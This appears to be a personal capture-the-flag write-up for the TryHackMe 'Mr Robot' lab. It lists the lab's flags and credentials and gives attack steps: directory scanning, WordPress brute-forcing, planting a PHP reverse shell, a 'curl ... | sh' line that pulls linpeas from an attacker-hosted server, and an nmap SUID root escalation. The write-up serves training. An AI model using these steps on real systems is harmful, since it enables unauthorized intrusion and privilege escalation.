 # TRYHACKME | MR ROBOT

> BLUE COSMO | 03/10/2021

## RESOURCES
```
10.10.246.245
```

## TASK 1
- RUN NMAP TO FIND PORT 80, 443 OPEN
- OPENED WEBSERVER, RAN 'dirb' SCANNER
- FOUND AND OPENED 'robots.txt':
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```
NAVIGATED TO FILES TO FIND KEY AND DICTIONARY FILE
```
073403c8a58a1f80d943455fb30724b9
```

## TASK 2
BRUTEFORCE WORDPRESS [FOUND IN 'dirb' SCAN] TO GET THESE CREDS:
```
USER - elliot
PASS - ER28-0652
```
AFTER LOGGING IN TO WP,
- IN THE APPEARANCE, CHANGE '404.php' WITH A PHP REVERSE Shell
- SETUP LISTENER AND OBTAIN ACCESS TO 'daemon'
- NAVIGATE TO HOME DIRECTORY
```bash
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```
DECRYPTED MD5:
```
abcdefghijklmnopqrstuvwxyz
```
- SWITCH USER TO 'robot' WITH NEW CREDENTIALS
- NAVIGATE TO HOME AND OBTAIN CREDENTIALS
```
822c73956184f694993bede3eb39f959
```
STABLIZE
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## TASK 3
- TO GET ROOT, IMPORT AND RUN 'linpeas.sh' BY RUNNING:
- ATTACKER PC: [LEAVE RUNNING]
```
sudo python3 -m http.server --bind YOUR-IP-HERE 8080
```
- TARGET PC:
```
curl http://YOUR-IP-HERE/linpeas.sh | sh
```
LOCATE NMAP'S ROOT PRIVELGES
```bash
$ -rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
```
EXPLOIT
```
nmap --interactive
!sh
```
